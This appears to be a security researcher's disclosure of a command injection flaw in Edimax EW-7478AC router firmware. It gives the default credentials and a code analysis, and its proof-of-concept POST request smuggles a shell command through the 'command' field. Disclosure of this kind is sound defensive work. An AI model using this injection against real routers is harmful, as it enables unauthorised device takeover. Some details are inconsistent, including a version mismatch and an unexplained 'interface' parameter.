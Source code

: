 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.07**. The vulnerability arises from the improper input validation of the `command` parameter in the 'mp' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.07

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'stainfo' is below:
![vulner_code.png](./img/vulner_code0.png)
![vulner_code.png](./img/vulner_code.png)


- ​**websGetVar** retrieves POST parameters.
- ​**sprintf()** is used without length checks, may leading to a ​buffer overflow.
- **system()** is used without check, so there is a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/mp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

band=aban&command=%0aecho hack>/poc.txt%0a
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)

if we change the value of 'interface', we can trigger a buffer overflow vulnerability. The attack result are as follow:
![overflow](overflow_result.png)
![[work_record/EDIMAX/EW7478/injection/2/img/result.png]]